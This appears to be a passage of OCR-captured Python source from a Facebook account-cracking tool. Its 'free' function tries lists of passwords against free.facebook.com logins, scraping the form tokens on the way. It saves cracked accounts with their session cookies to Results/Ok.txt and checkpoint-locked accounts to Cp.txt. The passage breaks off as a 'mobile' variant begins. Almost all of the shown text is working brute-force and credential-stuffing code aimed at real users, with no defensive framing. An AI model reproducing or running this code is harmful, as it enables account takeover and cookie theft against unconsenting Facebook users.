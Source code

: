                 print("\r\x1b[1;92m[JAMES-OK] %s | %s %s\x1b[1;97m"%(uid, pw, kuki))
                ok.append("%s | %s"%(uid, pw))
                open("Results/Ok.txt","a").write("%s | %s\n"%(uid, pw))
                break
            elif "checkpoint" in ses.cookies.get_dict().keys():
                print("\r\x1b[1;93m[JAMES-CP] %s | %s\x1b[1;97m       "%(uid, pw))
                cp.append("%s | %s"%(uid, pw))
                open("Results/Cp.txt","a").write("%s | %s\n"%(uid, pw))
                break
            else:
                continue
        loop +=1
    except:
        pass
# Crack Free.Facebook.Com
def free(ids, uid, pwx, **kwargs):
    global loop, ua, ok, cp
    sys.stdout.write(
        "\r\x1b[1;97m[Crack] %s/%s OK:-%s - CP:-%s "%(loop, len(ids), len(ok), len(cp))
    ); sys.stdout.flush()
    try:
        for pw in pwx:
            ses = requests.Session()
            ses.headers.update({"origin": "https://free.facebook.com", "accept-language": "id-ID,id;q=0.9,en-US;q=0.8,en;q=0.7", "accept-encoding": "gzip, deflate", "accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8", "user-agent": ua, "Host": "free.facebook.com", "referer": "https://free.facebook.com/login/?next&ref=dbl&fl&refid=8", "cache-control": "max-age=0", "upgrade-insecure-requests": "1", "content-type": "application/x-www-form-urlencoded"})
            p = ses.get("https://free.facebook.com/login/?next&ref=dbl&refid=8").text
            b = parser(p,"html.parser")
            bl = ["lsd","jazoest","m_ts","li","try_number","unrecognized_tries","login"]
            for i in b('input'):
                try:
                    if i.get('name') in bl:
                        kwargs.update({i.get('name'): i.get('value')})
                    else:continue
                except:pass
            kwargs.update({"email": uid,"pass": pw,"prefill_contact_point": "","prefill_source": "","prefill_type": "","first_prefill_source": "","first_prefill_type": "","had_cp_prefilled": "false","had_password_prefilled": "false","is_smart_lock": "false","_fb_noscript": "true"})
            gaaa = ses.post("https://free.facebook.com/login/device-based/regular/login/?refsrc=https%3A%2F%2Ffree.facebook.com%2F&lwv=100&refid=8",data=kwargs)
            if "c_user" in ses.cookies.get_dict().keys():
                kuki = (";").join([ "%s=%s" % (key, value) for key, value in ses.cookies.get_dict().items() ])
                print("\r\x1b[1;92m[JAMES-Ok] %s | %s %s\x1b[1;97m"%(uid, pw, kuki))
                ok.append("%s | %s"%(uid, pw))
                open("Results/Ok.txt","a").write("%s | %s\n"%(uid, pw))
                break
            elif "checkpoint" in ses.cookies.get_dict().keys():
                print("\r\x1b[1;93m[JAMES-CP] %s | %s\x1b[1;97m       "%(uid, pw))
                cp.append("%s | %s"%(uid, pw))
                open("Results/Cp.txt","a").write("%s | %s\n"%(uid, pw))
                break
            else:
                continue
        loop +=1
    except:
        pass
# Crack Mobile.Facebook.Com
def mobile(ids, uid, pwx, **kwargs):